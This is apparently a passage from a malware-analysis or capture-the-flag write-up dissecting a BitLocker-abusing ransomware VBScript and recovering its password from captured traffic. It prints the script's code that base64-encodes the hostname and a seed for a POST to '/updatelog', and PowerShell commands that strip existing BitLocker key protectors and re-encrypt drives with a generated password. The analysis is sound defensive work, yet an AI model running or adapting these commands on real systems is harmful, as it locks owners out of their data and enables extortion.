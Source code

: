 ```vbscript
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result

Set oXML = CreateObject("Msxml2.DOMDocument.6.0")
Set oNode = oXML.CreateElement("base64")
oNode.dataType = "bin.base64"

If InStr(1, caption, "2008", vbTextCompare) > 0 Or InStr(1, caption, "7", vbTextCompare) > 0 Then
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
Else
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
End If
```

The most interesting part of the code was a series of PowerShell commands that removed existing BitLocker instances, generated a new BitLocker password, and created a new BitLocker instance with that password:
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then: End If
			
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If

If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then: End 
```

The password for BitLocker was generated using the random string from the earlier code. We had everything needed to reconstruct the password except for the seed, which was sent in the `POST` request. By examining the pcap again, I found the `POST` request to `/updatelog`, which contained the hostname and seed encoded in base64.
![image2](./Pictures/updatelog.)

**DECODED CONTENT**
```
upgrade=DESKTOP-59C1C3D	43906.83
```
